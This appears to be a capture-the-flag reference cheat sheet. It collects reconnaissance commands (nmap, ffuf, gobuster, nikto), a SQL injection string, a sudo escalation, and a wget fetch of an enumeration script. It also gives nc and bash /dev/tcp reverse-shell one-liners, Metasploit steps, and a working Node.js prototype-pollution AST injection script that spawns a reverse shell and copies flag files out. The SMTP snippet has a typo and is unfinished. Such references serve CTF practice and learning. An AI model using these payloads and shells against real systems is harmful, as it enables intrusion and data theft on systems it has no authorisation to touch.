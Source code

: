 # CTF Reference

### Native tools
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)
- [Stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)

### Online tools
- [Crypto Chef](https://gchq.github.io/CyberChef/)

### Doc links
- [Stego](https://0xrick.github.io/lists/stego/)

 
 ### nmap 👁️
```shell
nmap -sC -A -T4 <ip>
```

### ffuf 🌩️
```shell
ffuf -u http://<url>/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
```shell
ffuf -u http://<url> -w /usr/share/dnsrecon/subdomains-top1mil.txt -H "Host: FUZZ.<domain>.com" -fc 301
```

### gobuster
```shell
gobuster dir -u http://<url> -w /usr/share/wordlists/dirb/common.txt
```

### Nikto
```shell
nikto -host <ip>
```

### dirb
```shell
dirb <url> /usr/share/wordlists/dirb/common.txt
```
 
### Basic sudo escalation
```
sudo -l
sudo -u theuser <app>
```

### Basic SQL injection
```
' OR name='test';--
```

### Quick Python HTTP server
Will serve any file in directory
```shell
python -m SimpleHTTPServer 8000
```
To fetch from the remote machine
```shell
wget http://<ip>:8000/LinEnum.sh
```

### nc reverse shell
Listener
```
nc -nlvp 444
```
Client
```
/bin/sh | nc <ip> 444
# or
bash -c "bash -i >& /dev/tcp/127.0.0.1/444 0>&1"
```


### Metasploit basic usage
```shell
msfconsole
search <name>
use <id>
show options
set rhosts <ip>
set targeturi /cgi-bin/hello.cgi
run
```

### Basic banner grabbing (Python)
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.198.73.23", 23))

print s.recv(1024)
```

### Recursive wget 
```shell
wget -r --level=1 -p http://<website> 
find . -name "*" -exec cat {} \; | grep "@email.com" # find strings in downloaded sites
```

### Protoype pollution AST injection
- [Nodejs AST injection](https://blog.p6.is/AST-Injection/)

```python
import requests

TARGET_URL = 'http://10.10.12.14:8713'

r1 = requests.post(TARGET_URL + '/submit', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.12.14/6666 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

print(r1._content)


r2 = requests.post(TARGET_URL + '/submit', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat flag* >> ./static/file.txt`)"
    }
})

print(r2._content)
```

### Basic SMTP enum (Python)

```python
import socket
f = open("userlist", "r")
users = f.readlines()

for user in users:
    s = socket.socket(socket.AFINTE)

    s.connect(("mail.baldrinc.com", 25))
    s.recv(1024)
    s.send("HELO")
    #...
    
# 546d467562334a356558493d
```
